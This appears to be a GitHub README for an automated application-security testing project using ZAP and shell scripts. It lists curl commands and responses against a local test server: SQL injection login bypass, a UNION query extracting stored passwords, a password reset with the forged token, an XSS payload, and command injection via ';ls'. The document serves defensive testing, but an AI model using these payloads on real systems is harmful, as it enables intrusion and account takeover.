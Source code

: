 # security-automated-tests

Automated Dynamic Application Security Tests (DAST)

##### Table of Contents  
[1. testing-stack](#testing-stack)<br />
[2. test-repo-dependencies](#repo-deps)<br />
[3. test-run-setup](#test-run)<br />
[4. security-test-observations](./docs/security_test_observations.md)<br />
[5. penetration-test-results-doc](./docs/pen_test_results.txt)<br />
[6. penetration-test-results-explanation](#test-results)<br />
[7. security-test-results-screenshots](#test-results-screenshots)<br />

<a name="testing-stack"></a>  

## 1. Testing stack

- **zap proxy** - zap proxy runner setup for dynamic application security test (DAST) automation      
- **python + javascript nashorn engine** - zap hooks and zap script extensions  
- **shell** - penetration test scripting 
- **docker** - docker for running dast tests

<a name="repo-deps"></a>

## 2. Test repo dependencies  
> **Note**   
> Need to run this step to install steps once for every new repo level dependencies added/updated   
```shell
source install.sh
```

> **Note**  
> docker and colima oci are optional replacement stack to avoid zap installation in local machine

<a name="test-run"></a>   

## 3. Test run setup  
> **Info** 
> Start Backend Server before running pen-tests
```bash
cd backend # from root folder 
pip install -r requirments.txt
source start-server.sh
``` 

> **Info**
> Script to run automated dynamic application security tests
> **Warning**  
> Script will create an auth token using admin credentials
> In actual test setup the username and password should read from envrionment variables
```shell
cd tests/security-tests # from root folder
source run_dast_tests.sh
```

> **Info**
> Script to run automated dynamic application security tests
```shell
source pen_tests.sh > pen_test_results.txt
```

<a name="test-results"></a> 

### Pen Test commands with results
```bash
------------------------------------------------
------------------------------------------------

------------------------------------------------
------------------------------------------------

Testing SQL Injection by passing default data validation to access the registration endpoint

curl -X POST http://localhost:5500/client_registeration -d 'fullName=newJohnDoe23186&userName=newjohndoe22521&password=password&phone=1234567890&email=newnoname18464@maildrop.cc" OR "1"="1'

{"msg":"Email already Exist"}
------------------------------------------------
------------------------------------------------

Testing SQL Injection by passing default data validation to access the login endpoint

curl -X POST http://localhost:5500/client_login -d 'userName=spammer&email=spam@email.com"OR 1=1;--&password=pwd'

{"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyTmFtZSI6InNwYW1tZXIiLCJlbWFpbCI6InNwYW1AZW1haWwuY29tXCJPUiAxPTE7LS0iLCJyb2xlIjoxfQ.SfASxL9cTm8uSE0yTC7Wx3ilRmNLRQWOcAGdwXrk5Cs"}
------------------------------------------------
------------------------------------------------

Testing SQL Injection to retrieve account details

curl -X POST http://localhost:5500/client_login -d 'userName=spammer&email=spam@email.com" union select password || ":" || email from users;--&password=pwd'

{
  "userName": "spammer",
  "email": "spam@email.com\" union select password || \":\" || email from users;--",
  "role": "admin@1234:admin@test.com"
}
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyTmFtZSI6InNwYW1tZXIiLCJlbWFpbCI6InNwYW1AZW1haWwuY29tXCIgdW5pb24gc2VsZWN0IHBhc3N3b3JkIHx8IFwiOlwiIHx8IGVtYWlsIGZyb20gdXNlcnM7LS0iLCJyb2xlIjoiYWRtaW5AMTIzNDphZG1pbkB0ZXN0LmNvbSJ9.Ket7bPwysNf0cmO2YJmg_ZuIyRabd6Byu9ROUq9vnCA
------------------------------------------------
------------------------------------------------

Testing Resetting the password of the retrieved account

curl -X POST http://localhost:5500/update_info -d "token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyTmFtZSI6InNwYW1tZXIiLCJlbWFpbCI6InNwYW1AZW1haWwuY29tXCIgdW5pb24gc2VsZWN0IHBhc3N3b3JkIHx8IFwiOlwiIHx8IGVtYWlsIGZyb20gdXNlcnM7LS0iLCJyb2xlIjoiYWRtaW5AMTIzNDphZG1pbkB0ZXN0LmNvbSJ9.Ket7bPwysNf0cmO2YJmg_ZuIyRabd6Byu9ROUq9vnCA&currentPassword=admin@1234&newPassword=newpass"

{"msg":"Password Reset"}
------------------------------------------------
------------------------------------------------

Testing Input Validation

curl -X POST http://localhost:5500/client_registeration -d 'fullName=<script>alert(XSS)</script>&userName=testuser&email=test@example.com&password=test&phone=1234567890'

{"msg":"User Registered"}
------------------------------------------------
------------------------------------------------

Testing Insecure Use of Ping

curl -X GET http://localhost:5500/products -d 'source=google.com;ls'

{"products":[{"id":1,"title":"Essence Mascara Lash Princess","description":"The Essence Mascara Lash Princess is a popular mascara known for its volumizing and lengthening effects. Achieve dramatic lashes with this long-lasting and cruelty-free formula.","category":"beauty","price":9.99,"discountPercentage":7.17,"rating":4.94,"stock":5,"tags":["beauty","mascara"],"brand":"Essence","sku":"RCH45Q1A","weight":2,"dimensions":{"width":23.17,"height":14.43,"depth":28.01},"warrantyInformation":"1 month warranty","shippingInformation":"Ships in 1 month","availabilityStatus":"Low Stock","reviews":[{"rating":2,"comment":"Very unhappy with my purchase!","date":"2024-05-23T08:56:21.618Z","reviewerName":"John Doe","reviewerEmail":"john.doe@x.dummyjson.com"},{"rating":2,"comment":"Not as described!","date":"2024-05-23T08:56:21.618Z","reviewerName":"Nolan Gonzalez","reviewerEmail":"nolan.gonzalez@x.dummyjson.com"},{"rating":5,"comment":"Very satisfied!","date":"2024-05-23T08:56:21.618Z","reviewerName":"Scarlett Wright","reviewerEmail":"scarlett.wright@x.dummyjson.com"}],"returnPolicy":"30 days return policy","minimumOrderQuantity":24,"meta":{"createdAt":"2024-05-23T08:56:21.618Z","updatedAt":"2024-05-23T08:56:21.618Z","barcode":"9164035109868","qrCode":"https:\/\/assets.dummyjson.com\/public\/qr-code.png"},"images":["https:\/\/cdn.dummyjson.com\/products\/images\/beauty\/Essence%20Mascara%20Lash%20Princess\/1.png"],"thumbnail":"https:\/\/cdn.dummyjson.com\/products\/images\/beauty\/Essence%20Mascara%20Lash%20Princess\/thumbnail.png"}],"total":194,"skip":0,"limit":30}
------------------------------------------------
------------------------------------------------
Testing Weak Error Message

curl -X POST http://localhost:5500/client_login -d 'email=nonexistent@example.com&password=wrongpassword'

{"message":"The browser (or proxy) sent a request that this server could not understand."}


-------------------------------------
------------------------------------

```   



<a name="test-results-screenshots"></a> 

[1.security-tests-report-summary](./docs/dast_report_summary.png)<br /><br />
[2.security-tests-report-sql-injection](./docs/dast_report_sql_injection.png)<br /><br />
[3.security-tests-full-report](./docs/dast_full_report.png)<br /><br />
